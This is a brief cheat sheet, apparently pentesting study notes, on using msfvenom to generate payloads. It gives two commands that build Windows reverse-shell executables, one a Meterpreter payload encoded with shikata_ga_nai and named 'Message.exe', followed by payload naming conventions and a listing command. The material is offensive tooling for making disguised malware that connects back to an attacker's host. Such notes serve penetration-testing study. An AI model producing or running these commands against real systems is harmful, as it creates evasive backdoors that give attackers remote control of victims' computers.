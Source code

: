 
  
msfvenom -p payload options

Examples:
 
`msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=ip LPORT=port`

	
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=$lhost LPORT=$lport -e x86/shikata_ga_nai -f exe -o Message.exe`
	
	
---
	
    **PAYLOAD NAMING CONVENTIONS**  
  
OS / architecture / payload
  
_ex: linux/x86/shell\_reverse\_tcp_  
  
  
Windows 32 arch is not specified  
/windows/shell_reverse_tcp
  
64 bit windows is specified as x64  
_indows/x64/shell_reverse_tcp_ 
  
  
\* Stageless payloads are denoted with \_  
\*\*Staged payloads are denoted with /  
  
  
**PAYLOAD SEARCH**  
msfvenom --list payloads